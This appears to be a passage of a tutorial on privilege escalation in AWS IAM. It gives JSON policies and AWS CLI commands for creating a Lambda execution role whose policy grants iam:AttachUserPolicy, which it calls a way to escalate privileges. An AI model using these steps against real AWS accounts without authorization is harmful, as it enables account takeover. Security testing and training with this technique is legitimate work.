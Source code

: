 1. A trust policy JSON file is created for the Lambda execution role.

   Filename: `lambda_trust.json`
   
   ```json
   {
     "Version": "2012-10-17",
     "Statement": [
       {
         "Effect": "Allow",
         "Principal": {
           "Service": "lambda.amazonaws.com"
         },
         "Action": "sts:AssumeRole"
       }
     ]
   }
   ```

1. An IAM role is created with the above trust policy assigned.

   ```bash
   aws iam create-role --role-name LambdaExecutionRole --assume-role-policy-document file://lambda_trust.json
   ```

1. A new JSON file is created for the policy document which will be attached to the Lambda function itself. We will escalate our privileges with `iam:AttachUserPolicy` in this scenario. Depending on the circumstances, the privileges available to you in a real world scenario will likely be different. Use what privileges you find along with other researched techniques to guide you.

   Filename: `lambda_iam_perms.json`
   
   ```json
   {
       "Version": "2012-10-17",
       "Statement": [
           {
               "Effect": "Allow",
               "Action": [
                   "logs:CreateLogGroup",
                   "logs:CreateLogStream",
                   "logs:PutLogEvents",
                   "iam:AttachUserPolicy"
               ],
               "Resource": "*"
           }
       ]
   }
   ```

1. Using the file above create the policy for a new role which will be assigned to the Lambda.

   ```bash
   aws iam create-policy --policy-name LambdaIAMPolicy --policy-document file://lambda_iam_perms.json
   ```

